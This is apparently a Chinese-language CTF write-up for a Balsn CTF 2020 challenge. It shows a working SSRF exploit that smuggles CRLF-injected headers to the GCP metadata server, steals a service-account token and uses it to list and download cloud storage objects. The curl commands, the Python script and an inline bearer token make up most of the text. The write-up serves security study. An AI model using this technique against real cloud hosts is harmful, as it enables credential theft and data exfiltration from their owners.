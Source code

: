 > 這邊補充一下如何拿到 proj id 和 token


project id 可以透過以下指令取得
```
curl "http://35.194.175.80:8000/query?site=http://metadata.google.internal/computeMetadata/v1/project/project-id%20HTTP/1.1%0D%0AMetadata-Flavor:Google%0D%0ANo:"
```

token 有時效性，並且可以透過以下方法取得
```
curl "http://35.194.175.80:8000/query?site=http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token%20HTTP/1.1%0D%0AMetadata-Flavor:Google%0D%0ANo:"
```

到這邊, 我們只能跟 metadata server 要 metadata, 還沒辦法打 API 拿 storage 相關的資料
- 於是查看 manual, 看有啥可以用的 info, 最後找到 token, 可以附在 header, 就能透過 storage server 拿資料了
	- 透過測試跟看文件, 可以知道有了 token, 就能在 local 打 request 了
	- https://storage.googleapis.com/storage/v1/b/bucket/o/object
	- ![](https://i.imgur.com/cUIGEOg.png)

	<!-- - ![](https://i.imgur.com/avlOdGI.png) -->

能使用 storage server, 就會想知道他有哪些資料
- 得知 storage 大概的資料架構為: project name --> bucket --> object, 因為我們有 project name, 所以 bucket 跟 object 都能透過他提供的 api 一層一層找出來
```
curl 'https://storage.googleapis.com/storage/v1/b?project=balsn-ctf-2020-tpc'  -H 'Metadata-Flavor: Google'  -H 'Authorization: Bearer ya29.c.KpcB5Qfr3sZB1YpicEBWAYbv5-hqiMYUjJdz0lF55RPwzcjgoJAfyt484WaNtHkcBLq8_T5auNlTl_LRcNp2viXvqO4AN6Do6X8GEkQOMMqcUiPHJ_gEg-chgEiSzs5mw1M5UoLoxJNFSHMDsqy5YEM-ImifLn5wPsqy6DHMSktUh_BUKkt9LxMNdFKCkMJBHd_HKWNLif1MGA'
```

列舉 object
```
curl 'https://storage.googleapis.com/storage/v1/b/asia.artifacts.balsn-ctf-2020-tpc.appspot.com/o' -o QQ  -H 'Metadata-Flavor: Google'  -H 'Authorization: Bearer ya29.c.KpcB5Qfr3sZB1YpicEBWAYbv5-hqiMYUjJdz0lF55RPwzcjgoJAfyt484WaNtHkcBLq8_T5auNlTl_LRcNp2viXvqO4AN6Do6X8GEkQOMMqcUiPHJ_gEg-chgEiSzs5mw1M5UoLoxJNFSHMDsqy5YEM-ImifLn5wPsqy6DHMSktUh_BUKkt9LxMNdFKCkMJBHd_HKWNLif1MGA'
```
![](https://i.imgur.com/ux6qCph.png)


找到 object 的所在處後, 利用他的 medialink, 一個一個存起來
``` python
#!/usr/bin/env python
import json, os
import requests

print('get token')
get_token = requests.get("http://35.194.175.80:8000/query?site=http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token%20HTTP/1.1%0D%0AMetadata-Flavor:Google%0D%0ANo:")
token = get_token.json()["access_token"]
print(token)

print('get obj list')
url = 'https://storage.googleapis.com/storage/v1/b/asia.artifacts.balsn-ctf-2020-tpc.appspot.com/o'
headers = {
'Metadata-Flavor': 'Google',
'Authorization': 'Bearer {}'.format(token)
}

jsonData = requests.get(url, headers=headers).json()
count = 0
for medialink in jsonData['items']:
    count += 1
    os.system("curl '{}' -o QQ{} -H 'Metadata-Flavor: Google'  -H 'Authorization: Bearer {}'".format(medialink['mediaLink'], count, token))
```